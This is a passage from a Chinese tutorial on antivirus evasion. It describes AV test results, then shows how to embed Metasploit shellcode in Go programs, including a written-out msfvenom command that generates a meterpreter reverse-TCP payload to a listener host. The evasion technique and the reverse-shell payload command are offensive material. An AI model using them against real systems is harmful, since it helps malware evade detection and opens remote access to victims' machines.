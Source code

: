 
**几点说明：**

**1、上表中标识 √ 说明相应杀毒软件未检测出病毒，也就是代表了Bypass。**

**2、为了更好的对比效果，大部分测试payload均使用msf的`windows/meterperter/reverse_tcp`模块生成。**

**3、由于本机测试时只是安装了360全家桶和火绒，所以默认情况下360和火绒杀毒情况指的是静态+动态查杀。360杀毒版本`5.0.0.8160`(2020.01.01)，火绒版本`5.0.34.16`(2020.01.01)，360安全卫士`12.0.0.2002`(2020.01.01)。**

**4、其他杀软的检测指标是在`virustotal.com`（简称VT）上在线查杀，所以可能只是代表了静态查杀能力，数据仅供参考，不足以作为免杀或杀软查杀能力的判断指标。**

**5、完全不必要苛求一种免杀技术能bypass所有杀软，这样的技术肯定是有的，只是没被公开，一旦公开第二天就能被杀了，其实我们只要能bypass目标主机上的杀软就足够了。**

 ---


# 1 Golang加载shellcode

## 1.1 GO加载shellcode介绍

用Golang做免杀的不是很多，不过也有一些go写的免杀工具，比如专题21里介绍的HERCULES就是把利用go来嵌入shellcode然后编译exe，还有veil、Avoidz都可以生成基于go语言的shellcode，而且免杀效果还不错。

唯一不足的是go编译出来的exe大约2.3M左右，使用upx压缩下大约1.5M,不过相比python编译的exe应该还能接受了，免杀效果还比python-exe要好一些。

Golang也可以分两种方式，一种是将shellcode嵌入go代码然后编译exe，一种是使用go加载器。

## 1.2 Go嵌入shellcode(VT查杀率3/71)

Go中嵌入shellcode的方法不大多，只找到了两种代码，相比python要少很多，也可能是因为毕竟少的缘故，所以免杀效果还是比较好的。

先用msfvenom生成C语言的shellcode，注意要生成x64的。

```
msfvenom -p  windows/x64/meterpreter/reverse_tcp  lhost=10.211.55.2 lport=3333 -f c
```
将shellcode转换一下，变成下面的格式

![91c1fa25778b68630ee4fced6977a5df](images/2020.05-bypass-07/2.png)
